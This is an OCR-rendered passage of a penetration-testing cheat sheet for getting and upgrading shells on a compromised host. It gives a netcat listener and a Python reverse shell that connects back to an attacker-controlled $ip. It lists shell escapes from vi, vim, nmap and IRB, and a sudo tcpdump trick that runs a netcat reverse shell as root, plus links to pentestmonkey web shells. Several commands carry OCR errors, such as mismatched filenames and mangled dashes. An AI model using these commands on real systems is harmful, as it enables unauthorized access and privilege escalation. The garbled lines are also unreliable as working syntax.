 - Netcat Shell Listener

nc -nlvp 443

- Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user. (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell ) (hint: sudo -l to see what you can run)
    - python -c 'import pty; pty.spawn("/bin/sh")'
    - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    - echo os.system('/bin/bash')
    - /bin/sh -i
    - perl —e 'exec "/bin/sh";'
    - perl: exec "/bin/sh";
    - ruby: exec "/bin/sh"
    - lua: os.execute('/bin/sh')
    - (From within IRB)

exec "/bin/sh"

    - (From within vi)

:!bash

    - From within vim

Breaking out of vim is done by ':!bash':

    - (From within vi)

:set shell=/bin/bash:shell

    - (From within nmap)

!sh

    - (From within tcpdump)

echo $’id\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

    - from busybox

/bin/busybox telnetd -|/bin/sh -p9999

- Pen test monkey PHP reverse shell

[*http://pentestmonkey.net/tools/web-shells/php-reverse-shel*](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

- php-findsock-shell - turns PHP port 80 into an interactive shell

[*http://pentestmonkey.net/tools/web-shells/php-findsock-shell*](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

- Perl Reverse Shell

[*http://pentestmonkey.net/tools/web-shells/perl-reverse-shell*](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)
